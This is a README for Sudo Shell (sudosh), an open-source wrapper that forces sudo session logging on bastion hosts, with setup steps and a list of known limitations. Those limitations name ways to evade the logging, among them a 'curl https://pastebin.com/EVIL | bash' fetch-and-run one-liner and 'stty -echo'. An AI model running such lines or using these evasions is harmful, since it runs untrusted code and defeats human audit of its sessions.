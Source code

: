 <!-- This file was automatically generated by the `build-harness`. Make all changes to `README.yaml` and run `make readme` to rebuild this file. -->
[![README Header][readme_header_img]][readme_header_link]

[![Cloud Posse][logo]](https://cpco.io/homepage)

# Sudo Shell [![Build Status](https://travis-ci.org/cloudposse/sudosh.svg?branch=master)](https://travis-ci.org/cloudposse/sudosh) [![Latest Release](https://img.shields.io/github/release/cloudposse/sudosh.svg)](https://github.com/cloudposse/sudosh/releases/latest) [![GitHub Stars](https://img.shields.io/github/stars/cloudposse/sudosh.svg)](https://github.com/cloudposse/sudosh/stargazers) [![Average time to resolve an issue](http://isitmaintained.com/badge/resolution/cloudposse/sudosh.svg)](http://isitmaintained.com/project/cloudposse/sudosh) [![Percentage of issues still open](http://isitmaintained.com/badge/open/cloudposse/sudosh.svg)](http://isitmaintained.com/project/cloudposse/sudosh) [![Slack Community](https://slack.cloudposse.com/badge.svg)](https://slack.cloudposse.com)


Sudo Shell is a wrapper to run a login shell with `sudo` for the purpose of session audit logging. 


---

This project is part of our comprehensive ["SweetOps"](https://cpco.io/sweetops) approach towards DevOps. 
[<img align="right" title="Share via Email" src="https://docs.cloudposse.com/images/ionicons/ios-email-outline-2.0.1-16x16-999999.svg"/>][share_email]
[<img align="right" title="Share on Google+" src="https://docs.cloudposse.com/images/ionicons/social-googleplus-outline-2.0.1-16x16-999999.svg" />][share_googleplus]
[<img align="right" title="Share on Facebook" src="https://docs.cloudposse.com/images/ionicons/social-facebook-outline-2.0.1-16x16-999999.svg" />][share_facebook]
[<img align="right" title="Share on Reddit" src="https://docs.cloudposse.com/images/ionicons/social-reddit-outline-2.0.1-16x16-999999.svg" />][share_reddit]
[<img align="right" title="Share on LinkedIn" src="https://docs.cloudposse.com/images/ionicons/social-linkedin-outline-2.0.1-16x16-999999.svg" />][share_linkedin]
[<img align="right" title="Share on Twitter" src="https://docs.cloudposse.com/images/ionicons/social-twitter-outline-2.0.1-16x16-999999.svg" />][share_twitter]




It's 100% Open Source and licensed under the [APACHE2](LICENSE).












## Introduction

The `sudo` command provides built-in session logging. 
Combined with [`sudoreplay`](https://www.sudo.ws/man/1.8.13/sudoreplay.man.html) 
it provides an easy way to review session logs on a 
[bastion](https://github.com/cloudposse/bastion/) host. 
When used as a system login shell, it will force session logging.

[Another common pattern](https://aws.amazon.com/blogs/security/how-to-record-ssh-sessions-established-through-a-bastion-host/) 
is to use the OpenSSH `ForceCommand` directive in `sshd_config` combined with the `script` command to log sessions. 
This is ineffective because the [user can easily bypass](http://serverfault.com/a/639814) it.  
Using `sudosh` provides a more secure alternative that cannot be bypassed since it does not depend on `ForceCommand`.

## Usage



Here's how to use it in 3 easy steps. 
Checkout the [precompiled releases](https://github.com/cloudposse/sudosh/releases) 
if you don't want to build it yourself...:

1. Enable `sudo` logging. Edit `/etc/sudoers.d/sudosh`:

  ```
  Defaults log_output requiretty
  Defaults!/usr/bin/sudoreplay !log_output
  Defaults!/sbin/reboot !log_output
  ```

2. Add this command to `/etc/shells`:

  ```
  /usr/bin/sudosh
  ```

  **Tip**: to prevent users from using other shells to login, remove those shells from `/etc/shells`.


3. Update the user `foobar` to use the `sudosh` shell. 

  ```
  chsh -s /usr/bin/sudosh foobar
  echo 'foobar ALL=(foobar) ALL' > /etc/sudoers.d/sudosh-foobar
  ```
  **NOTE:** filenames in `sudoers.d` cannot contain the `.` character


## Known Limitations

* Without `requiretty` users can easily circumvent logging of `stdin` by running `ssh user@host bash`. 
* Using `requiretty`, will require passing a pseudo TTY, which is easily accomplished by instead running `ssh -tt user@host bash`
* Users can easily circumvent logging of `stdin` by running `stty -echo`, however, you'll see the command run to disable it. =)
* Users can easily run scripts (e.g. `curl https://pastebin.com/EVIL | bash`) which would circumvent the ability to see what was executed
* There are 1000+ ways bad actors can circumvent *any* form of TTY logging. 
* Using this method of session logging only recommended to keep an *honest* log of what happened.
* Capturing a byte-for-byte session log requires extension of the SSH server or perhaps a custom shell built specificically for that purpose. 








## Help

**Got a question?**

File a GitHub [issue](https://github.com/cloudposse/sudosh/issues), send us an [email][email] or join our [Slack Community][slack].

[![README Commercial Support][readme_commercial_support_img]][readme_commercial_support_link]

## Commercial Support

Work directly with our team of DevOps experts via email, slack, and video conferencing. 

We provide [*commercial support*][commercial_support] for all of our [Open Source][github] projects. As a *Dedicated Support* customer, you have access to our team of subject matter experts at a fraction of the cost of a full-time engineer. 

[![E-Mail](https://img.shields.io/badge/email-hello@cloudposse.com-blue.svg)][email]

- **Questions.** We'll use a Shared Slack channel between your team and ours.
- **Troubleshooting.** We'll help you triage why things aren't working.
- **Code Reviews.** We'll review your Pull Requests and provide constructive feedback.
- **Bug Fixes.** We'll rapidly work to fix any bugs in our projects.
- **Build New Terraform Modules.** We'll [develop original modules][module_development] to provision infrastructure.
- **Cloud Architecture.** We'll assist with your cloud strategy and design.
- **Implementation.** We'll provide hands-on support to implement our reference architectures. 




## Slack Community

Join our [Open Source Community][slack] on Slack. It's **FREE** for everyone! Our "SweetOps" community is where you get to talk with others who share a similar vision for how to rollout and manage infrastructure. This is the best place to talk shop, ask questions, solicit feedback, and work together as a community to build totally *sweet* infrastructure.

## Newsletter

Signup for [our newsletter][newsletter] that covers everything on our technology radar.  Receive updates on what we're up to on GitHub as well as awesome new projects we discover. 

## Contributing

### Bug Reports & Feature Requests

Please use the [issue tracker](https://github.com/cloudposse/sudosh/issues) to report any bugs or file feature requests.

### Developing

If you are interested in being a contributor and want to get involved in developing this project or [help out](https://cpco.io/help-out) with our other projects, we would love to hear from you! Shoot us an [email][email].

In general, PRs are welcome. We follow the typical "fork-and-pull" Git workflow.

 1. **Fork** the repo on GitHub
 2. **Clone** the project to your own machine
 3. **Commit** changes to your own branch
 4. **Push** your work back up to your fork
 5. Submit a **Pull Request** so that we can review your changes

**NOTE:** Be sure to merge the latest changes from "upstream" before making a pull request!


## Copyright

Copyright © 2017-2019 [Cloud Posse, LLC](https://cpco.io/copyright)



## License 

[![License](https://img.shields.io/badge/License-Apache%202.0-blue.svg)](https://opensource.org/licenses/Apache-2.0) 

See [LICENSE](LICENSE) for full details.

    Licensed to the Apache Software Foundation (ASF) under one
    or more contributor license agreements.  See the NOTICE file
    distributed with this work for additional information
    regarding copyright ownership.  The ASF licenses this file
    to you under the Apache License, Version 2.0 (the
    "License"); you may not use this file except in compliance
    with the License.  You may obtain a copy of the License at

      https://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing,
    software distributed under the License is distributed on an
    "AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
    KIND, either express or implied.  See the License for the
    specific language governing permissions and limitations
    under the License.









## Trademarks

All other trademarks referenced herein are the property of their respective owners.

## About

This project is maintained and funded by [Cloud Posse, LLC][website]. Like it? Please let us know by [leaving a testimonial][testimonial]!

[![Cloud Posse][logo]][website]

We're a [DevOps Professional Services][hire] company based in Los Angeles, CA. We ❤️  [Open Source Software][we_love_open_source].

We offer [paid support][commercial_support] on all of our projects.  

Check out [our other projects][github], [follow us on twitter][twitter], [apply for a job][jobs], or [hire us][hire] to help with your cloud strategy and implementation.



### Contributors

|  [![Erik Osterman][osterman_avatar]][osterman_homepage]<br/>[Erik Osterman][osterman_homepage] |
|---|

  [osterman_homepage]: https://github.com/osterman
  [osterman_avatar]: https://github.com/osterman.png?size=150



[![README Footer][readme_footer_img]][readme_footer_link]
[![Beacon][beacon]][website]

  [logo]: https://cloudposse.com/logo-300x69.svg
  [docs]: https://cpco.io/docs
  [website]: https://cpco.io/homepage
  [github]: https://cpco.io/github
  [jobs]: https://cpco.io/jobs
  [hire]: https://cpco.io/hire
  [slack]: https://cpco.io/slack
  [linkedin]: https://cpco.io/linkedin
  [twitter]: https://cpco.io/twitter
  [testimonial]: https://cpco.io/leave-testimonial
  [newsletter]: https://cpco.io/newsletter
  [email]: https://cpco.io/email
  [commercial_support]: https://cpco.io/commercial-support
  [we_love_open_source]: https://cpco.io/we-love-open-source
  [module_development]: https://cpco.io/module-development
  [terraform_modules]: https://cpco.io/terraform-modules
  [readme_header_img]: https://cloudposse.com/readme/header/img?repo=cloudposse/sudosh
  [readme_header_link]: https://cloudposse.com/readme/header/link?repo=cloudposse/sudosh
  [readme_footer_img]: https://cloudposse.com/readme/footer/img?repo=cloudposse/sudosh
  [readme_footer_link]: https://cloudposse.com/readme/footer/link?repo=cloudposse/sudosh
  [readme_commercial_support_img]: https://cloudposse.com/readme/commercial-support/img?repo=cloudposse/sudosh
  [readme_commercial_support_link]: https://cloudposse.com/readme/commercial-support/link?repo=cloudposse/sudosh
  [share_twitter]: https://twitter.com/intent/tweet/?text=Sudo+Shell&url=https://github.com/cloudposse/sudosh
  [share_linkedin]: https://www.linkedin.com/shareArticle?mini=true&title=Sudo+Shell&url=https://github.com/cloudposse/sudosh
  [share_reddit]: https://reddit.com/submit/?url=https://github.com/cloudposse/sudosh
  [share_facebook]: https://facebook.com/sharer/sharer.php?u=https://github.com/cloudposse/sudosh
  [share_googleplus]: https://plus.google.com/share?url=https://github.com/cloudposse/sudosh
  [share_email]: mailto:?subject=Sudo+Shell&body=https://github.com/cloudposse/sudosh
  [beacon]: https://ga-beacon.cloudposse.com/UA-76589703-4/cloudposse/sudosh?pixel&cs=github&cm=readme&an=sudosh
